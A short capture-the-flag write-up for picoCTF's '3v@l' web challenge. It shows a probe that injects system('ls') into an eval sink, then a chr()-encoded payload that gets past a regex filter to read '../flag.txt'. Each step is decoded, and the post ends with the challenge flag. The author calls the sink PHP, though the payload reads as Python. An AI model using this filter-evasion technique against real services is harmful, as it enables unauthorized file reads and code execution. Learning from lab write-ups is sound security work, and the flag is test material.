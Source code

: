 # Challenge web: 3v@l
![image](https://github.com/user-attachments/assets/b5ee0c6e-303e-4230-8a74-dd450c60d041)

first i was mentioned about rce, and eval() after researching for a while i found some interesting information(https://medium.com/@pkhuyar/the-danger-of-php-eval-a23410187ca2) , I was mentioned about rce, and eval() after researching for a while I found some interesting information, I went to the website and tried those payloads:

eval("system('ls');");
![image](https://github.com/user-attachments/assets/fa66e028-e4ae-4604-a3e8-364ba3db6463)

As you can see, I got filtered exactly as suggested in suggestion 1 above, so once we have determined the right direction and how do we Bypass the regex as suggested

because eval() is related to php so after I asked google and chatted GPT I was suggested to use: chr().
![image](https://github.com/user-attachments/assets/f7a72bad-af7c-405c-b1d9-544c684d5880)

After a while of searching with a nice friend of mine we finally found a payload that passed the filter:

getattr(
    open(
        chr(46)+chr(46)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)
    ),
    "r" + "ead"
)()

analysis as follows:

 chr(46) + chr(46) → ".."
    chr(46) = "." 
    chr(47) → "/" 
    chr(102) + chr(108) + chr(97) + chr(103) → "flag"
        chr(102) = "f"
        chr(108) = "l"
        chr(97) = "a"
        chr(103) = "g"
    chr(46) = "." 
    chr(116) + chr(120) + chr(116) → "txt"
        chr(116) = "t"
        chr(120) = "x"
        chr(116) = "t"
        
=> it will be :   getattr(
    open("../flag.txt"),
    "read"
)() and bypass the filter successfully.
![image](https://github.com/user-attachments/assets/39a2e476-bdae-484c-8f74-5ab3a5296a05)

Problem Solved: picoCTF{D0nt_Use_Unsecure_f@nctions68288869}.
